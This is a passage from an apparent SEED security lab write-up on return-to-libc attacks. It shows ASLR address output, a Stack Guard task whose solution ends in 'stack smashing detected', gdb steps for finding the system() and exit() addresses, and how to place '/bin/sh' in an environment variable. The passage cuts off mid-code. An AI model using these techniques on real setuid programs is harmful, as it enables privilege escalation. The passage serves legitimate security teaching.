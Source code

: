 ```

seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbf8d8e8a
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbff0de8a
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbfa3ce8a
```

### Task 3: Stack Guard Protection
In this task, let us turn on the Ubuntu's Stack Guard protection. Please remember to turn off the address randomization protection. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the Stack Guard protection make your return-to-libc attack difficult?
```
sudo gcc -z noexecstack -o retlib retlib.c
sudo chmod 4755 retlib
```

Solution:
```
root@ubuntu:/home/seed# /sbin/sysctl -w kernel.randomize_va_space=0
root@ubuntu:/home/seed# gcc -z noexecstack -o retlib retlib.c 
root@ubuntu:/home/seed# chmod 4755 retlib
root@ubuntu:/home/seed# exit
exit
[08/13/2016 00:35] seed@ubuntu:~$ ./retlib
*** stack smashing detected ***: ./retlib terminated
```

## Guidelines: Understanding the function call mechanism

### Find out the addresses of libc functions
To find out the address of any libc function, you can use the following `gdb` commands (a.out is an arbitrary program):
```
$ gdb a.out

(gdb) b main
(gdb) r
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
```
From the above `gdb` commands, we can find out that the address for the `system()` function is `0xb7e5f430`, and the address for the `exit()` function is `0xb7e52fb0`. The actual addresses in your system might be different from these number.

### Putting the shell string in the memory
One of the challenge in this lab is to put the string "`/bin/sh`" into the memory, and get its address. This can be achieved using environment variables. When a C program is executed, it inherits all the environment variables from the shell that exevutes it. The environment variable SHELL points directly to `/bin/bash` and is needed by other programs, so we introduce a new shell variable MYSHELL and make it point to `zsh`.
```
$ export MYSHELL=/bin/sh
```
We will use the address of this variable as an argument to `system()` call. The location of this variable in the memory can be found out easily using the following program:
```
void main() {
    char* shell = getenv("MYSHELL");
    if(shell)
```
